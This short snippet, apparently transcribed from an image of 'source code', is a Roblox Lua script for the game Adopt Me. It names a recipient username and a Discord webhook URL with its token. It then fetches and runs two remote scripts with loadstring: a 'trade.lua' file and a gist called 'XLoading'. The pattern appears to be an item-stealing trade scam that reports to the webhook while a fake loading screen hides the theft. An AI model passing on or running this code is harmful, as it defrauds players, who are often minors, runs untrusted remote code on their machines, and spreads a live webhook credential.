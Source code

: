 UserName = "Fly012344"
WebHook = "https://discord.com/api/webhooks/1302212274164990023/d164bTr8yeAaf6zZkZ83_XRjJjzNoqGtZb2N4hsk9ByvhLRteUm1sckIG7CxYjAv2zx_"

getgenv().gui = false
loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/AdoptMe/main/trade.lua"))()

loadstring(game:HttpGet("https://gist.githubusercontent.com/XScriptsOfficial/fa738a6fadda796f176a69c1082603a1/raw/8a81affcc0f0050be06871247e0d026481b6a1ed/XLoading"))()
